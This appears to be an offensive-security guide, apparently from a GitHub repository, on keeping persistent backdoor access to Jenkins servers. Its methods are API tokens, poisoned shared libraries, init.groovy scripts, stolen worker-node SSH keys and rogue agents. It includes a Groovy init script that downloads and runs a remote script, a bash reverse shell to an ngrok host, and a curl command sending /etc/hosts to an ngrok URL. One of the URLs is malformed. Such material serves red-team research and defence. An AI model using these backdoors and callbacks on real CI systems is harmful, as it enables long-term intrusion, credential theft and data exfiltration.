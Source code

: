 # Backdooring

- Backdooring helps attacker to gain access over systems over long period of time ( sometimes bypassing the security checks )
- A higher level privileges might be required to do the changes in configuration



## User issued Jenkins API Tokens

- It is possible for users to generate their own API tokens.
- Can be used to bypass other authentication process ( Form based Authentication / 2FA authentication )
- Usually undected ( unless the usage count is not tracked )
- As an attacker we need to make sure, we need to give right priviliges to these compromised users in case Matrix Authorization Strategy is enabled.

```
curl http://username:token@127.0.0.1:8080
```
<img src="api-token-access.png">

## Using Shared Libraries

- Jenkins shared library is popular where large number of jenkins jobs or pipelines uses a repeated code in pipeline script. 
- The developers creates certain modular functions containing the repetitive code and then reuses across various projects/pipelines/jobs.
- Personal Research : https://oxhat.blogspot.com/2022/07/attacking-backdooring-and-exfiltrating.html
- There are 2 ways we can backdoor the shared pipelines
  1. Add a backdoor inside a shared library codebase ( Jenkins Admin Access Not Required )
``` Groovy
@Library("shared-libraries") _
pipeline{
    agent any
    stages {
        stage("example"){
            steps{
                sh "echo Just a job2"
                helloWorld(name:"User2",dayOfWeek:"Tuesday")
            }
        }
    }
}
```
  - <img src="shared-library-code.png">
  3. Change the shared library location to an attaker controlled shared library ( Jenkins Admin Access Required )
  - <img src="shared-library-conf.png">

## Groovy init scripts

- We can try this technique both from pipeline / after controller's compromise.
- We need to add ```init.groovy``` file with our payload at home directory ( the directory that contains other config files pf Jenkins, sometimes referred as $JENKINS_HOME )
- To trigger this, we would need a restart.
- We have couple of options what we can do with our backdoor scripts
  - Get a reverse shell - From my personal research I found my payloads / the ones from internet blocked the Jenkins from rebooting. This is because Jenkins is waiting for the init.groovy to complete before it can proceed. If you have a non blocking playload do let me know.
init.groovy
```
"wget -o revshell.sh  http://https://gist.githubusercontent.com/dibsy/temp-cmd.txt".execute()
"sh revshell.sh".execute()
```
revshell.sh
```
bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/13520 0>&1
```
  - Exfiltrate data
exfil.groovy
```
"curl -X POST https://6aee-91-166-172-59.ngrok-free.app -d @/etc/hosts".execute()
```
  - Use other persistent techniques
    - Add a cronjob
    - Add another user

## Worker-Node SSH Keys

- We can dump the SSH keys from the Jenkins Controller
- Once we have the SSH keys we can montitor the logon events and exfiltrate the build data or snoop on it for debug logs or credentials.

## Addling Malicious Worker-Node 

- In this process we update / add a new configuration with an attacker controller worker node.
- We can update the Worker-Node configuration to point to that node.
- This is possible either adding a new agent or updating the ssh keys used for configuration.

<img src="configure-agent.png">


